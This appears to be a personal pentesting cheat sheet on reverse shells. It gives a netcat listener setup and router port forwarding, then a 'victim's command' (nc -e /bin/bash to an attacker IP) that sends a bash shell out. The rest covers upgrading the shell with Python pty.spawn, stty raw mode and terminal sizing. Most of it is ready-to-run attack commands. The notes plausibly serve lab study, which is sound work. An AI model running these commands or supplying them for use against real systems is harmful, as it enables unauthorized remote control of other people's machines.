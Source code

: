 #### Setting Up a Listening Port with Netcat

-   - **Attacker's Command**:
  ```shell
  nc -nlvp 11111
  ```

- **Explanation**:
  - `nc`: Netcat, a versatile tool for network connections.
  - `-n`: No DNS or service lookups.
  - `-l`: Listening mode for incoming connections.
  - `-v`: Verbose mode for detailed information.
  - `-p 11111`: Specifies the listening port (11111 in this example).

- **Use Case**:
  - Ideal for setting up a listener after exploiting vulnerabilities, such as command injection, to catch reverse shells from the target machine.


#### Setting Up Port Forwarding

- **Port Forwarding Requirement**:
  - For reverse shells to work, especially over the internet, setting up port forwarding on your router is essential.
  - **Process**:
    - Configure your router to forward an external port (e.g., 4444) to the internal IP and port of the machine where your listener (netcat) is running.
    - This ensures that when the reverse shell is initiated by the target, it can reach your listener through the router.

---
#### Reverse Shell Setup and Upgrade

- **Reverse Shell Introduction**:
  - A method to control a victim's machine by making it send a shell back to the attacker's machine. It's crucial for situations where direct connection to the victim's network is not possible.

 ### - **Victim's Command**:
 
 ```shell
   nc -e /bin/bash [10.10.0.25] 11111
```
 
  - **Explanation**:
   The attacker listens on their machine, while the victim's machine initiates a connection with a bash shell.

#### Types of Reverse Shells

- **Variety in Reverse Shells**:
  - There are many types of reverse shells, each leveraging different tools and languages. It's important to remember that if one method does not work in a given scenario, you can always try another. A useful resource for exploring various reverse shell options is [Revshells.com](https://www.revshells.com/). This website offers a wide range of reverse shell techniques and command examples, allowing you to select and customize the one that best fits your testing environment.

---
- **Shell Upgrade**:
  - Upgrading to a more interactive shell can provide enhanced control and stability.
  - **Method**: Using Python.
   - **Command**:

Here I am looking for what ver of python in on the system

```shell
python -V
python3 -V
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


- **Explanation**: 
   This spawns a new bash shell for a more interactive environment.

   Use this command if Python is available. It spawns a bash shell.
  - **Without Python**:
  
    ```shell
   SHELL=/bin/bash script -q /dev/null
    ```
  Use this alternative if Python is not installed.

- **Backgrounding and Configuring the Shell**:
  - **Background the Shell**:
   - Press `Ctrl + Z` to background the shell.
  - **Enable Raw Input**:
```shell
stty raw -echo; fg
```

   This command configures the terminal to send raw input to the reverse shell.
  - **Reset the Terminal**:
```shell
reset
```

If asked for the TERM, use `xterm-256color` or your attacker machine's `$TERM` value.


- **Terminal Configuration**:
  - **Validate Terminal Type**:
   ```shell
   echo $TERM
   export TERM=xterm-256color
   echo $TERM
   ```
   This ensures the terminal type is correctly set.

  - **Configure Shell for User**:
  
   ```shell
   echo $SHELL
   export SHELL=/bin/bash
   echo $SHELL
   ```
  
  - **Adjust Screen Size**:
  
   ```shell
   echo $TERM && tput lines && tput cols  # Run on attacker too find size
   stty rows 20 columns 80               # Run on victim
   ```

  Adjust the victim's shell size to match the local machine's shell size. This prevents word wrap distortion in tools like nano and vim.


- **Notes**:
  - In some cases, the terminal size for shell and text editors like nano/vim may not align. Use the `w` command to adjust the size through trial and error.
  - A fully functional shell should be resilient, where even sending `^C` (Ctrl + C) does not terminate the shell.

#### Additional Shell Information

- Netcat (`nc`) may not be available on all machines, and its `-e` option is often disabled for security reasons.
- Alternative shells and methods are required in such cases, and choosing the right one depends on the target environment.

